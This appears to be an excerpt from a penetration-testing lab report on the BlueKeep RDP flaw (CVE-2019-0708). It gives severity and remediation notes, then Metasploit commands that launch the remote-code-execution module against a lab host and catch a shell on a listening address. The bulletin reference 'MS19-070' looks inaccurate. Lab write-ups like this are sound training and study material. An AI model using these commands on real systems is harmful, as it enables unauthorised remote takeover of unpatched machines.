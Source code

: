 Remediation: The following is the remedy for the identified vulnerability: Fix the vulnerability with the security update from Microsoft. Note: In Microsoft Security Bulletin MS19-070, point to the update to be applied.

Severity: Critical, due to the potential for unauthenticated attackers to execute arbitrary code on the target system.

Proof of Concept Code Here: 

use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce

set RHOSTS 10.0.2.4

set LHOST 10.0.2.15

set TARGET 2

exploit

Initial Shell Screenshot:

![](media/lab45-11.png)

![A screenshot of a computer program

Description automatically generated](media/lab45-12.png)

![A black background with white text

Description automatically generated](media/lab45-13.png)

![A screen shot of a computer

Description automatically generated](media/lab45-14.png)

![A computer screen shot of a computer code

Description automatically generated](media/lab45-15.png)
